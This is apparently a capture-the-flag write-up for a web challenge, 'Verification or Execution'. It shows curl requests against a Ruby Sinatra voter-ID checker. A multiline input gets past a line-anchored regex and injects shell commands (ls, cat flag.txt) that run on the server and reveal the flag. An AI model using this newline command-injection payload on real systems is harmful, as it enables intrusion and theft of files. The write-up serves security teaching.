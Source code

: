 ```yaml
---
layout: writeup
title: Verification or Execution
tags: WebX
---
```


## Description

Look, this is supposed to be a simple checker for an ID to make sure its actually part of the early voting system, yet someone gained access to my system?!
There's only one field and I'm sure my regex is perfect!

<!--more-->

http://redac.ted:8002/


## Solution

this link leads to a page with just a single input that asks for your 'early voter ID'

```bash
$ curl "http://re.da.ct.ed:8002/"
<!DOCTYPE html>
<html>
<head>
  <title>Early Voter Verification</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
  <div class="container vh-100 d-flex flex-column justify-content-center align-items-center text-center">
    <h1>Welcome to the Early Voter ID Checker v0.2</h1>
    <p> Thank you for trying our early voting on site system!</p>
    <p> By registering early we'll allow you to access voting booths a few days earlier to put in your vote.</p>
    <p> Please enter your driver's license in order to make sure that you'll have access.</p>
    <form method="post" class="w-100" style="max-width: 400px;">
      <label for="voter_id" class="form-label mt-3">Enter your early voter ID:</label>
      <input type="text" name="voter_id" class="form-control" />
      <button type="submit" class="btn btn-primary mt-3">Verify</button>
    </form>


  </div>
</body>
</html>
```

Submitting just the number `1` for out voter ID gets:

```bash
$ curl -X POST "http://re.da.ct.ed:8002/" -d "voter_id=1"
<!DOCTYPE html>
<html>
<head>
  <title>Early Voter Verification</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
  <div class="container vh-100 d-flex flex-column justify-content-center align-items-center text-center">
    <h1>Welcome to the Early Voter ID Checker v0.2</h1>
    <p> Thank you for trying our early voting on site system!</p>
    <p> By registering early we'll allow you to access voting booths a few days earlier to put in your vote.</p>
    <p> Please enter your driver's license in order to make sure that you'll have access.</p>
    <form method="post" class="w-100" style="max-width: 400px;">
      <label for="voter_id" class="form-label mt-3">Enter your early voter ID:</label>
      <input type="text" name="voter_id" class="form-control" />
      <button type="submit" class="btn btn-primary mt-3">Verify</button>
    </form>


      <h2 class="mt-4">Verification Result:</h2>
      <p> Checking with our specialized script... </p>
      <pre class="bg-light p-3 rounded">Error: Invalid voter ID format. Expected 4 letters followed by 4 digits. Debug: did not pass /^[A-Za-z]{4}\d{4}$/</pre>

        <p class="error">❌ Access denied. You are not on the early voter list.</p>


  </div>
</body>
</html>
```

This reveals the regex that out input needs to pass: `/^[A-Za-z]{4}\d{4}$/`. How about putting in an input that is of the incorrect type and maybe seeing if any code is leaked in the error message

```bash
$ curl -X POST "http://re.da.ct.ed:8002/" -d "voter_id[0]=1"
NoMethodError: undefined method `match' for {"0"=>"1"}:Sinatra::IndifferentHash (NoMethodError)

  if !voter_id.match(/^[A-Za-z]{4}\d{4}$/)
              ^^^^^^
        app.rb:13:in `block in <main>'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1807:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1807:in `block in compile!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1074:in `block (3 levels) in route!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1092:in `route_eval'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1074:in `block (2 levels) in route!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1123:in `block in process_route'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1121:in `catch'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1121:in `process_route'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1072:in `block in route!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1069:in `each'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1069:in `route!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1193:in `block in dispatch!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1164:in `catch'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1164:in `invoke'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1188:in `dispatch!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1004:in `block in call!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1164:in `catch'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1164:in `invoke'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1004:in `call!'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:993:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/base.rb:53:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/xss_header.rb:20:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/path_traversal.rb:18:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/json_csrf.rb:28:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/base.rb:53:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/base.rb:53:in `call'
        /usr/local/bundle/gems/rack-protection-4.1.1/lib/rack/protection/frame_options.rb:33:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/middleware/logger.rb:17:in `call'
        /usr/local/bundle/gems/rack-3.1.16/lib/rack/common_logger.rb:43:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:269:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:262:in `call'
        /usr/local/bundle/gems/rack-3.1.16/lib/rack/head.rb:15:in `call'
        /usr/local/bundle/gems/rack-3.1.16/lib/rack/method_override.rb:28:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/show_exceptions.rb:23:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:227:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:2138:in `call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1677:in `block in call'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1898:in `synchronize'
        /usr/local/bundle/gems/sinatra-4.1.1/lib/sinatra/base.rb:1677:in `call'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/configuration.rb:279:in `call'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/request.rb:99:in `block in handle_request'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/thread_pool.rb:390:in `with_force_shutdown'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/request.rb:98:in `handle_request'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/server.rb:472:in `process_client'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/server.rb:254:in `block in run'
        /usr/local/bundle/gems/puma-6.6.0/lib/puma/thread_pool.rb:167:in `block in spawn_thread'
```
That's a big error message, but it tells us some crucial things. Namely, the program is written in `ruby` using `sinatra` and that the check `!voter_id.match(/^[A-Za-z]{4}\d{4}$/)` just checks if there are any results, not the result count, or if the result is the entire thing.

Lets break down this regex to figure out how to exploit it like was hinted at in the description with the `I'm sure my regex is perfect!` comment.

`/^[A-Za-z]{4}\d{4}$/`

This means that a line needs to start (`^`) and then, we need four text characters (`[A-Za-z]{4}`) before finally, having four digits (`\d{4}`) and ending it off with the end of a line (`$`).

So the first thought that pops into my mind is that if the passed in value is multiple lines long, then we can include extra text, while the value still passes the regex, becuase one of the lines does.

Let's test that:

```bash
$ curl -X POST "http://re.da.ct.ed:8002/" -d "voter_id=AAAA0000
flag"
<!DOCTYPE html>
<html>
<head>
  <title>Early Voter Verification</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
  <div class="container vh-100 d-flex flex-column justify-content-center align-items-center text-center">
    <h1>Welcome to the Early Voter ID Checker v0.2</h1>
    <p> Thank you for trying our early voting on site system!</p>
    <p> By registering early we'll allow you to access voting booths a few days earlier to put in your vote.</p>
    <p> Please enter your driver's license in order to make sure that you'll have access.</p>
    <form method="post" class="w-100" style="max-width: 400px;">
      <label for="voter_id" class="form-label mt-3">Enter your early voter ID:</label>
      <input type="text" name="voter_id" class="form-control" />
      <button type="submit" class="btn btn-primary mt-3">Verify</button>
    </form>


      <h2 class="mt-4">Verification Result:</h2>
      <p> Checking with our specialized script... </p>
      <pre class="bg-light p-3 rounded"></pre>

        <p class="error">❌ Access denied. You are not on the early voter list.</p>


  </div>
</body>
</html>
```

As you can see, our hypothesis worked. Multiple lines gets around the regex, even if the word `flag` doesn't end up doing anything.

Now, looking back at the challenge it is called `Verification or Execution` we just got around the `Verification` part, so I guess it is time to do the `execution`

To start with I discovered we could do RCE on the machine by just inputting any linux command

```bash
$ curl -X POST "http://re.da.ct.ed:8002/" -d 'voter_id=AAAA0000
ls'
<!DOCTYPE html>
<html>
<head>
  <title>Early Voter Verification</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
  <div class="container vh-100 d-flex flex-column justify-content-center align-items-center text-center">
    <h1>Welcome to the Early Voter ID Checker v0.2</h1>
    <p> Thank you for trying our early voting on site system!</p>
    <p> By registering early we'll allow you to access voting booths a few days earlier to put in your vote.</p>
    <p> Please enter your driver's license in order to make sure that you'll have access.</p>
    <form method="post" class="w-100" style="max-width: 400px;">
      <label for="voter_id" class="form-label mt-3">Enter your early voter ID:</label>
      <input type="text" name="voter_id" class="form-control" />
      <button type="submit" class="btn btn-primary mt-3">Verify</button>
    </form>


      <h2 class="mt-4">Verification Result:</h2>
      <p> Checking with our specialized script... </p>
      <pre class="bg-light p-3 rounded">Dockerfile
Gemfile
Gemfile.lock
README.md
app.rb
flag.txt
shell.rb
shell.rb.1
shell.sh
shell.sh.1
shell.sh.2
views
votercheck.sh
</pre>

        <p class="error">❌ Access denied. You are not on the early voter list.</p>


  </div>
</body>
</html>
```

And there is the flag.txt file, so lets read it

```bash
$ curl -X POST "http://re.da.ct.ed:8002/" -d 'voter_id=AAAA0000
cat flag.txt' | grep secedu
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1296  100  1266  100    30   9465    224 --:--:-- --:--:-- --:--:--  9744
      <pre class="bg-light p-3 rounded">secedu{h0_b0y_th3y'r3_in_we'3r_in_tr0ubl3_ar3n't_w3}</pre>
```

There's the flag `secedu{h0_b0y_th3y'r3_in_we'3r_in_tr0ubl3_ar3n't_w3}`
